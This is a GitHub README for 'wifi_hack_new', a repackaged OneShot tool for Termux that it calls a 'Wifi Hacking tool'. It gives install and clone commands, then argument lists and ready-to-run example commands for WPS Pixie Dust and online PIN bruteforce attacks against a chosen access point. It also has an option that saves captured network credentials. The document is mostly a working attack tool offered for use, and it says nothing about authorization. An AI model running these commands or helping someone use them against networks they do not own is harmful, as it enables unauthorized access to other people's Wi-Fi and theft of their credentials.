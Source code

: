 # wifi_hack_new
Wifi Hacking tool By Minhaj Chowdhury 


# OneShot for Termux with vibro/sound notification

## FIRST!
```
pkg install play audio
```
## [For sound notification (line #1041) you can use your own audio file "sonar.mp3"]
https://github.com/jevgenyonegin/OneShot_Notification_Mod/blob/0f398bd999869767c3b81899241baa6d381b2b42/oneshot.py#L1041
Termux: nano -l +1041 oneshot.py > make changes > Ctrl+o > Ctrl+x or simply replace sonar.mp3 with your *.mp3 file

# Overview
**OneShot** performs [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without having to switch to monitor mode.
# Features
 - [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack);
 - integrated [3WiFi offline WPS PIN generator](https://3wifi.stascorp.com/wpspin);
 - [online WPS bruteforce](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf);
 - Wi-Fi scanner with highlighting based on iw;
# Requirements
 - Python 3.6 and above;
 - [Wpa supplicant](https://www.w1.fi/wpa_supplicant/);
 - [Pixiewps](https://github.com/wiire-a/pixiewps);
 - [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw).
# Setup

## [Termux](https://f-droid.org/en/packages/com.termux/)
Please note that root access is required.  

**Installing requirements**
 ```
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw openssl play-audio
 ```
**Getting OneShot**
 ```
 git clone https://github.com/Noxashik/wifi_hack_new.git
 ```
#### Running
 ```
 sudo python OneShot/oneshot.py -i wlan0 --iface-down -K
 ```

# Usage
```
 oneshot.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --pbc                    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 oneshot.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try run the following:
```
sudo chmod 644 /dev/wmtWifi
sudo sh -c 'echo 1 > /dev/wmtWifi'
```
# Acknowledgements
## Special Thanks
* `rofl0r` for initial implementation;
* **`drygdryg` for developing OneShot**;
* `Monohrom` for testing, help in catching bugs, some ideas;
* `Wiire` developing Pixiewps;
* **`eda-abec` for vulwsc updates and support**;
* `vilvius31` for project support;
